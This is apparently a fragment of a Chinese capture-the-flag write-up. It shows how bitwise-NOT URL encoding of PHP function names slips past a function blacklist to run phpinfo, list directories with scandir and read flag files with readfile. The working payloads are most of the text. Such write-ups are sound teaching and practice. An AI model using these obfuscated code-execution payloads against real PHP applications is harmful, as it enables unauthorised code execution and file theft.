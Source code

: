 ```php
<?php
echo urlencode(~'phpinfo');
?>
    
payload:
?code=(~%8F%97%8F%96%91%99%90)();
```

![image-20220405233218476](BUU-WEB-0x30-0x3F/image-20220405233218476.png)

禁用了很多函数，

可以使用scandir和readfile：

```php
<?php
    //print_r(scandir('./'))
echo urlencode(~'print_r');
echo urlencode(~'scandir');
?>
%8F%8D%96%91%8B%A0%8D
%8C%9C%9E%91%9B%96%8D
payload:
(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("/")));
```

之后使用readfile读：

```
<?php
echo urlencode(~'readfile');
?>

//%8D%9A%9E%9B%99%96%93%9A

payload:
flag:(~%8D%9A%9E%9B%99%96%93%9A)((~%D0%99%93%9E%98));
readflag:(~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```
